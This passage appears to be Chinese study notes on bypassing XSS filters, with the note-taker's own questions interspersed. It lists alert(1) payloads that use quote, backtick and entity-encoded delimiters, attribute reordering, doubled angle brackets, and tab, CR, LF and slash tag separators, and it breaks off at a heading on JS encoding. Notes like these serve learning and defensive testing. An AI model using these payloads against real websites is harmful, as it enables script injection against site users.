 > 这段payload没太看懂



### 分隔符和括号

分隔符是用于分隔文本字符串或者其他数据流的一个或多个字符。在挖xss漏洞时，巧妙的使用分隔符非常有效。在HTML中，我们经常使用空格来分隔属性和它的值。还有的时候，只要使用一个单引号或者双引号作为分隔符就可以绕过filter了，如下：

```html
<img onerror="alert(1)"src=x>
<img onerror='alert(1)'src=x>

// 对分隔符进行编码也可以用来绕过防御
<img onerror=&#34alert(1)&#34src=x>
<img onerror=&#39alert(1)&#39src=x>
```

反引号也是绕过filter的一种不错的技巧

```html
<img onerror=`alert(1)`src=x>
// 编码版本如下：
<img onerror=&#96alert(1)&#96src=x>
```

Filter有时候会过滤某些关键词，比如以“on”开头的事件处理器，以此来防御此类xss攻击。

如果我们把属性的位置换到前面，filter无法识别反引号，就不会将之视为“on”开头的单独的属性，这样也就可以有效绕过filter了，如下：

```html
<img src=`x`onerror=alert(1)>
```

跟分隔符一样，尖括号也可以利用来绕过filter。在某些情况下，filter仅仅只会查找开始括号和闭合括号，然后将尖括号里面的内容与恶意标签黑名单比较。通过使用多个尖括号，有时候可以骗过filter接受后面的代码。再使用双斜线注释掉后面的闭合标签，所以也不会报错，如下：

```html
<<script>alert(1)//<</script>

// 还有时候在结束的地方使用开尖括号也有可能绕过filter
<input onsubmit=alert(1)<
```

> 1我没理解，它的场景又是什么？

### 标签名分隔符

```html
<img/onerror=alert(1) src=a>
<img[0x09]onerror=alert(1) src=a>
<img[0x0d]onerror=alert(1) src=a>
<img[0x0a]onerror=alert(1) src=a>
<img/"onerror=alert(1) src=a>
<img/'onerror=alert(1) src=a>
<img/anyjunk/onerror=alert(a) src=a>
```

### JS编码
